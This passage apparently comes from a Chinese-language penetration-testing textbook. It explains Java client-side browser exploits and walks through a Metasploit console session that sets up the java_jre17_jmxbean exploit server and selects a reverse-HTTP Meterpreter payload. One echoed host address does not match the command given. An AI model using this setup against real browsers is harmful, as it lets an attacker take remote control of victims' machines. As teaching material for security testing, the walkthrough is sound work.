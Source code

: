 一旦你点击 PDF 警告中的“打开”选项，负载将会运行，你将收到一个会话。

### Java 漏洞利用

Java 漏洞是一个普遍存在的客户端攻击向量。事实上，一些专家建议，鉴于 Java 所面临的安全问题，用户应该卸载或禁用浏览器中的 Java 软件。

Java 攻击如此强大的原因之一是，一个漏洞利用可以访问多个平台。运行 Java 运行时环境（JRE）的 Windows、Mac，甚至是 Linux 系统，只要浏览器打开恶意页面，都可能受到同一漏洞的攻击。以下是一些漏洞利用示例。

#### Java 漏洞

作为第一个示例，我们将使用 Metasploit 模块*exploit/multi/browser/java_jre17_jmxbean*，如示例 10-15 所示。使用此模块与本章早些时候展示的 Internet Explorer Aurora 漏洞利用类似。Metasploit 设置一个恶意服务器，利用此跨平台漏洞攻击任何到达该页面的浏览器。所有运行 Java 7 版本（更新 11 之前）的浏览器都会受到影响。

示例 10-15. 设置 Java 漏洞利用

```
msf > **use exploit/multi/browser/java_jre17_jmxbean**
msf  exploit(java_jre17_jmxbean) > **show options**

Module options (exploit/multi/browser/java_jre17_jmxbean):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   SRVHOST     0.0.0.0          yes       The local host to listen on. This must be an address
                                            on the local machine or 0.0.0.0
   SRVPORT     8080             yes       The local port to listen on.
--*snip*--
   URIPATH                      no        The URI to use for this exploit (default is random)

Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)

msf  exploit(java_jre17_jmxbean) > **set SRVHOST 192.168.20.9**
SRVHOST => 10.0.1.9
msf  exploit(java_jre17_jmxbean) > **set SRVPORT 80**
SRVPORT => 80
msf  exploit(java_jre17_jmxbean) > **set URIPATH javaexploit**
URIPATH => javaexploit
msf  exploit(java_jre17_jmxbean) > **show payloads**❶

Compatible Payloads
===================

   Name                            Disclosure Date  Rank    Description
   ----                            ---------------  ----    -----------
--*snip*--
   java/meterpreter/bind_tcp                        normal  Java Meterpreter, Java Bind TCP
                                                                  Stager
   java/meterpreter/reverse_http                    normal  Java Meterpreter, Java Reverse HTTP
                                                              Stager
   java/meterpreter/reverse_https                   normal  Java Meterpreter, Java Reverse
                                                              HTTPS Stager
   java/meterpreter/reverse_tcp                     normal  Java Meterpreter, Java Reverse TCP
                                                              Stager
   java/shell_reverse_tcp                           normal  Java Command Shell, Reverse TCP
                                                              Inline
--*snip*--
msf  exploit(java_jre17_jmxbean) > **set payload java/meterpreter/reverse_http**❷
payload => java/meterpreter/reverse_http
```
